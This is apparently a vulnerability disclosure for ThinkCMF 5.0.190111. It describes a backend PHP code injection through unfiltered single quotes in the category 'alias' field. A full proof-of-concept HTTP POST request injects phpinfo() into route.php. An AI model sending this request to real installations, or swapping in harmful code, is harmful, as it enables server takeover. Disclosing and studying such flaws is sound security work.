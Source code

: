 # ThinkCMF-5.0.190111 backend arbitrary code injection

## Description
ThinkCMF 5.0.190111 failed to filter single quote(i.e. ') in user input, resulting in arbitrary php code injected in `data/conf/route.php`. This vulnerability can be triggered by backend logged in user making a crafted HTTP request to **/portal/admin_category/addpost.html**



### The trigger point
![](img/20190128160302.jpg)

## PoC
```http
POST /portal/admin_category/addpost.html HTTP/1.1
Host: 192.168.170.209
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: thinkphp_show_page_trace=0|0; thinkphp_show_page_trace=0|0; PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22%2C%22%22)%2Cphpinfo()%2C'2&description=xxx&more%5Bthumbnail%5D=&seo_title=&seo_keywords=&seo_description=&list_tpl=list&one_tpl=article
```

## Demo
![](img/thinkcmf.gif)
